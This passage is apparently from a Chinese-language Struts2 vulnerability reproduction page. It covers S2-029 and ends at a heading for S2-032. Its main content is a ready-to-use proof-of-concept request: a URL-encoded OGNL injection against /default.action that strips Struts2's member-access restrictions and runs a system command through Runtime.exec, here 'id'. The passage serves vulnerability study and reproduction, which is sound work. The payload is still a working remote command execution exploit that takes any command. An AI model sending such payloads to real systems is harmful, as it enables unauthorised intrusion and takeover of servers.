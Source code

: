 ![s2-029-1](images/s2-029-1.png)

任意命令执行 PoC，执行 `id` 命令

```
/default.action?message=(%23_memberAccess[%27allowPrivateAccess%27]=true,%23_memberAccess[%27allowProtectedAccess%27]=true,%23_memberAccess[%27excludedPackageNamePatterns%27]=%23_memberAccess[%27acceptProperties%27],%23_memberAccess[%27excludedClasses%27]=%23_memberAccess[%27acceptProperties%27],%23_memberAccess[%27allowPackageProtectedAccess%27]=true,%23_memberAccess[%27allowStaticMethodAccess%27]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%27id%27).getInputStream()))
```

![s2-029-2](images/s2-029-2.png)

## S2-032
